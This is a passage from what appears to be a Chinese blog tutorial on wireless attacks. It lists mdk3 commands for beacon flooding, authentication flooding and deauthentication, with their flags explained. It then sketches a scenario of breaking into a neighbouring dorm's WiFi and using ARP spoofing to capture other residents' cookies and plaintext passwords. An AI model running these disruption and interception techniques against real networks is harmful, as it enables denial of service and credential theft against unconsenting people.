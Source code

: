 
```bash
mdk3 wlan0mon b -f a.txt -c 1 -p 200
-n是指定ap名称
-p指定发包速率
-a指定加密方式为AES
-g随机伪造无线信号


mdk3 wlan0mon a -a mac -c -s 300
-c不检测测试是否成功
-s发包速率

mdk3 wlan0mon d -w 白名单 -c 2
-b为黑名单
-c指定信道
```

# 渗透思路分享
&nbsp;&nbsp;&nbsp;&nbsp; 这里我提出一个场景模拟，假设我们处于宿舍中，每一个宿舍都有一个wifi，现在我们利用上述的方式得到了wifi密码进入了隔壁宿舍的局域网中，这时我们可以通过arp欺骗伪装网关，监听宿舍中其他人访问的数据包，获取cookie信息，明文密码等。所以我之后的想法也就是做一个自动化的脚本，将上述攻击方式结合起来获取局域网内的访问信息，这一点确实很像ARP攻击，但是我想它不仅限于此。具体思路和WiFi Pineapple中的方式相似，我相信它的实现会是一个很漫长的过程。
# 后记
&nbsp;&nbsp;&nbsp;&nbsp; 无线攻击就讲到这里，之后我会发一些关于WiFi Pineapple的教程，本来想着要把这两段整合到一块去写，但是我感觉这样文章会太繁琐，所以就没有这么做，网上关于无线和菠萝派的讲解其实不是很多，所以我就想着写出这段文章发表出来。最近一阵时间一直在家里等消息，希望会是一个好消息吧。**最后祝大家前程似锦，心想事成。**

**本章仅供学习参考**